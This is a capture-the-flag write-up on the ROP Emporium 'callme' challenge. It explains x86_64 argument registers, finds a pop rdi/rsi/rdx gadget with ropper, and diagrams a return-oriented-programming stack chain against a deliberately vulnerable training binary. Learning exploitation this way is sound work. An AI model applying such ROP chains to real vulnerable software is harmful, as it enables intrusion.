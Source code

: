 So, if we have the following function:

```C
int foo(int var1, int var2, int var3){
	stuff
}
```

and we wanted to call the function as `foo(1,2,3);` then we would have to place 1 in rdi, 2 in rsi, and 3 in rdx.

With that background covered, let's look at the challenge:

> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, ~~each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag~~. ==**For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`==

First things first, let's just focus on doing it for callme_one. We need to find gadgets that will let us control the values of rdi, rsi, and rdx. The simplest way is to pop them off the stack because we already control that. So let's search for pop rdi in the binary.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/callme/callme_64/callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 

```


Will you look at that, that's super useful (it's also there intentionally, hint `disass usefulGagets`).

With that gadget we can set all of the arguments to the callme functions.

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | pop gadget loc | # call 1st gadget to pop off all the vals
8  bytes | 0xdeadbeef...  | # all of the function arguments
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_1 loc   | # call the first call me function
8  bytes | pop gadget loc | # start again, and call the pop off gadget
8  bytes | 0xdeadbeef...  | # function args again
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_2 loc   | # call the sec call me function
8  bytes | pop gadget loc | # start again for the last time
8  bytes | 0xdeadbeef...  |
8  bytes | 0xcafebabe...  |
8  bytes | 0xd00df00d...  |
8  bytes | callme_3 loc   | # final call of call me
8  bytes | -------------- |

```
